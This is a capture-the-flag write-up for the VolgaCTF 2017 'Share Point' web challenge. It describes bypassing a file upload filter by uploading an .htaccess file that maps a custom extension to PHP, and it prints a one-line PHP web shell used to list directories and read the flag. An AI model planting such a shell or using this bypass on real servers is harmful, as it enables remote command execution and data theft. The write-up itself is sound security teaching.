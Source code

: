 # VolgaCTF 2017 Quals: Share Point

**Category:** Web Exploitation
**Points:** 200
**Total Solves:** Not Available
## Problem Description:

[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)

> Look! I wrote a good service for sharing your files with your friends, enjoy. 



## Write-up
[//]: # (> Your write up goes here.)
This problem taught me something new about vulnerability in Apache server. This problems gives us a URL when we goto share-point.quals.2017.volgactf.ru and we see this login page: 
![Image](Share-point/sharepointVolgaCTF-1.png?raw=true "Login Page")

We login with any user name and password. It gives a page where we can upload files on the server and see it. Natural guess is to upload a .php file and see it do our which is print the flag on server. But it doesn't allow us do upload .php file. Tried uploading .php5 but no help. After trying a lot of things like uploading .png file and files with any other extension tells us that we can see the name of file name in URL as we see the uploaded files. After getting to know this me and Terry are thinking like some how we need to upload a file with .php extension that way we can execute our code in by passing values in URL. After much thinking, looking up on web we realized that on Apache server we have .htaccess file where we can specify the extension of file which should be treated as php file on server side. By default which is .php. After realising this solution is easy. We first uploaded a file .htaccess with content ```AddType application/x-httpd-php .getflag```, what this do is it allow us execute any file with .getflag extension as php file. Now we uploaded a file named myfile.getflat which has following content:

```
<?php

system($_GET['cmmand']);

?>
```

![Image](Share-point/sharepointVolgaCTF-2.png?raw=true "Login Page")
![Image](Share-point/sharepointVolgaCTF-3.png?raw=true "Login Page")
![Image](Share-point/sharepointVolgaCTF-4.png?raw=true "Login Page")

Once our file with php code is uploaded and is ready to executed on server, we go to see the file again and pass arguments to cmmand in url like: command=ls%20/opt. 

![Image](Share-point/sharepointVolgaCTF-5.png?raw=true "Login Page")
This show that there is flag in /opt and passing the cmmand=cat%20/opt/flag.txt gives the flag: **VolgaCTF{AnoTHer_apPr0Ach_to_file_Up10Ad_with_PhP}**
![Image](sharepointVolgaCTF-6.png?raw=true "Login Page")
## Other write-ups and resources

* None
